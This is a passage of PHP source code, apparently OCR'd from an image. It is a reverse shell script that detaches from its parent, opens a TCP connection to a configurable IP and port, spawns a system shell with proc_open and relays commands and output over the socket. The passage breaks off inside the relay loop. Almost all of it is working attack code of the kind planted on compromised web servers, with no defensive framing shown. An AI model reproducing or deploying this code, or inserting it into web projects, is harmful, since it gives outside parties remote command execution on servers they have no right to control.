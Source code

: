 ```php
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
```
